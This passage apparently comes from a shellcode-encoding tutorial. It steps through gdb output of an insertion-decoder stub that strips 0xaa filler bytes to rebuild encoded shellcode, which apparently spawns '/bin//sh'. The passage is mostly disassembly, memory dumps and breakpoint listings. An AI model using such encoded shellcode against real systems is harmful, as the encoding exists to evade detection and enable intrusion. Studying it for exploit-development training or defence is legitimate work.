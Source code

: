 Now we see that this location was really overwritten by 0x50. After
that 0xaa will be overwritten by 0x68.

```
(gdb) stepi
Dump of assembler code for function code:
   0x0804a040 <+0>:	jmp    0x804a05f <code+31>
   0x0804a042 <+2>:	pop    esi
   0x0804a043 <+3>:	lea    edi,[esi+0x1]
   0x0804a046 <+6>:	xor    eax,eax
   0x0804a048 <+8>:	mov    al,0x1
   0x0804a04a <+10>:	xor    ebx,ebx
   0x0804a04c <+12>:	mov    bl,BYTE PTR [esi+eax*1]
   0x0804a04f <+15>:	xor    bl,0xaa
   0x0804a052 <+18>:	jne    0x804a064 <code+36>
   0x0804a054 <+20>:	mov    bl,BYTE PTR [esi+eax*1+0x1]
   0x0804a058 <+24>:	mov    BYTE PTR [edi],bl
=> 0x0804a05a <+26>:	inc    edi
   0x0804a05b <+27>:	add    al,0x2
   0x0804a05d <+29>:	jmp    0x804a04c <code+12>
   0x0804a05f <+31>:	call   0x804a042 <code+2>
   0x0804a064 <+36>:	xor    eax,eax
   0x0804a066 <+38>:	push   eax
   0x0804a067 <+39>:	push   0xaa68aa50
   0x0804a06c <+44>:	das    
   0x0804a06d <+45>:	stos   BYTE PTR es:[edi],al
   0x0804a06e <+46>:	das    
   0x0804a06f <+47>:	stos   BYTE PTR es:[edi],al
   0x0804a070 <+48>:	jae    0x804a01c
   0x0804a072 <+50>:	push   0x2faa68aa
   0x0804a077 <+55>:	stos   BYTE PTR es:[edi],al
   0x0804a078 <+56>:	bound  ebp,QWORD PTR [edx-0x55915597]
   0x0804a07e <+62>:	mov    DWORD PTR [edx-0x55af551d],ebp
   0x0804a084 <+68>:	mov    DWORD PTR [edx-0x55ac551e],ebp
   0x0804a08a <+74>:	mov    DWORD PTR [edx-0x554f551f],ebp
   0x0804a090 <+80>:	or     ebp,DWORD PTR [edx-0x557f5533]
   0x0804a096 <+86>:	add    BYTE PTR [eax],al
End of assembler dump.
0x804a064 <code+36>:	0x31	0xc0	0x50	0x68	0x50	0xaa	0x68	0xaa
```

And so on and this would keep on happening because we keep moving our
original shellcode back into its logical position. Now we can delete
breakpoint at `0x0804a058` position and after that continue execution.

```
(gdb) info breakpoints 
Num     Type           Disp Enb Address    What
1       breakpoint     keep y   0x0804a040 <code>
	breakpoint already hit 1 time
2       breakpoint     keep y   0x0804a064 <code+36>
3       breakpoint     keep y   0x0804a058 <code+24>
	breakpoint already hit 2 times
```

